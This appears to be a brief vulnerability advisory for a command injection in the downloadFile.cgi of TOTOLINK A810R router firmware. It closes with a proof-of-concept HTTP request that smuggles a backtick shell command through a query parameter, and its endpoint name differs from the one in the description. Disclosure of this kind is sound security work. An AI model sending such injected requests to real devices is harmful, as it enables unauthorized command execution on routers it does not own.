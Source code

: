 # command injection

## A810R_Firmware

version: V5.9c.4050_B20190424

## Description:

There is a command injection in downloadFile.cgi. Still exist in V5.9c.4050_B20190424.

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Analyse:
![](https://s3.bmp.ovh/imgs/2022/08/15/c9bc5cee24835fdb.png)

don't check the input of QUERY_STRING and call system

![](https://s3.bmp.ovh/imgs/2022/08/15/4adf3d68294d8f74.png)


# POC
```
GET /cgi-bin/downloadFlile.cgi?payload=`dw>../1.txt` HTTP/1.1 
Host: 192.168.1.106
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 accept-language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```
